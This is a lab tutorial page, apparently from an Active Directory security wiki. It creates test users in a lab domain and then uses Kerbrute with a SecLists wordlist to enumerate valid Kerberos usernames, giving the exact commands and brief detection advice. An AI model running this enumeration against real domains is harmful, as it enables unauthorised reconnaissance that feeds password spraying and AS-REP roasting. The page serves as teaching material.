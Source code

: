 ```yaml
---
description: >-
  It is possible to enumerate valid usernames without authentication by sending
  TGT requests with no pre-authentication.
---
```


# Username Enumeration

## Configuring

To implement the attack we need to create a couple users with easy guessable usernames. To do this we can choose some usernames from a populair [list of usernames](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) from the [SecLists](https://github.com/danielmiessler/SecLists) repository.

We will create the following users:

```
john
david
robert
chris
mike
dave
richard
thomas
steve
mark
```

### Creating users

Previously we created users by using the GUI. Now we will create users using PowerShell. Create the file users.txt and place the usernames in there.

```
cd C:\
notepad users.txt
$password = ConvertTo-SecureString 'ReallySecurePassword123!' -AsPlainText -Force
$files = Get-Content -Path C:\users.txt
ForEach ($name in $files) {
New-ADUser -Name "$name" -GivenName "$name" -SamAccountName "$name" -UserPrincipalName $name@amsterdam.bank.local -Path "OU=Employees,DC=amsterdan,DC=bank,DC=local" -AccountPassword $password -Enabled $true
}
```

![](<../../../.gitbook/assets/image (8) (1).png>)

Run the command below to check the users are created:

```
Get-ADUser -Filter * | Select-Object Name
```

![](<../../../.gitbook/assets/image (15).png>)

## Attacking

### How it works

> _To enumerate usernames, send TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists._
>
> _Source:_ [_https://github.com/ropnop/kerbrute#user-enumeration_](https://github.com/ropnop/kerbrute#user-enumeration)\_\_

### Executing the attack

To enumarate usernames we can use the tool [Kerbrute](https://github.com/ropnop/kerbrute). To install Kerbrute on Kali download the latest [release](https://github.com/ropnop/kerbrute/releases) from GitHub and save it somewhere. I would recommend `/opt`.

![](<../../../.gitbook/assets/afbeelding (31).png>)

For the list of usernames download the [xato-net-10-million-usernames.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) list from [SecLists](https://github.com/danielmiessler/SecLists).

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt
```

After downloading the tool and the username list run Kerbrute against the domain `amsterdam.bank.local`. Pipe the command to tee to save the output to a txt file.

```
./kerbrute_linux_amd64 userenum -d amsterdam.bank.local --dc 10.0.0.3 xato-net-10-million-usernames.txt | tee username_enum.txt
```

These valid users can be used for AS-REP roasting or Password Spraying Attacks. For now save these users to `usernames.txt`.

![](<../../../.gitbook/assets/image (22) (1).png>)

To only get a list of usernames execute the following:

```
cat username_enum.txt | grep bank.local | cut -d " " -f 8- | cut -d "@" -f 1 | sed 's/./\L&/g' | sort -u > users.txt

cat users.txt                                                                                                       
administrator
bank
chris
dave
david
john
mark
mike
richard
robert
steve
thomas
```

From here we can execute the following attacks to gain access to the domain:



{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

{% content-ref url="empty-password.md" %}
[empty-password.md](empty-password.md)
{% endcontent-ref %}

{% content-ref url="as-rep-roasting.md" %}
[as-rep-roasting.md](as-rep-roasting.md)
{% endcontent-ref %}

## Defending

### Recommendations

* I dont know any configurations to block the enumeration of usernames. The best way to block this is using a non traditional naming convention for the samaccountnames.

### Detection

The attack generates the Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) "A Kerberos authentication ticket (TGT) was requested" if Kerberos logging is enabled.

**Work in Progress**

## References

{% embed url="https://github.com/danielmiessler/SecLists" %}

{% embed url="https://github.com/ropnop/kerbrute" %}
